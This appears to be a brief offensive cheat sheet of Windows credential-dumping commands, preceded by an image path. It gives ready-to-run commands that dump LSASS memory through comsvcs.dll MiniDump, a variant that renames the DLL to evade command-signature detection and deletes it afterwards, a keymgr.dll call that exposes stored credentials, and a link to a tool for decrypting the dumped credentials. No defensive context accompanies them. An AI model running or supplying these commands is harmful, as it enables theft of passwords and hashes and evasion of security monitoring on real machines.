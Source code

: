 ### Dump lsass process
```
rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id <fullPath>\lsassdump.dmp full
```

### Dump lsass process and bypass command signature
```
$id = Get-Process lsass; cd c:\tmp; copy C:\Windows\System32\comsvcs.dll <newName>.dll; rundll32.exe <newName>.dll, MiniDump $id.Id c:\tmp\<file>.dmp full; Wait-Process -Id (Get-Process rundll32).id; del <newName>.dll;
```

### Dump passwords of DPAPI into crd file ()
```
rundll32.exe keymgr.dll, KRShowKeyMgr
```

### Decrypt using
https://www.nirsoft.net/utils/credentials_file_view.html

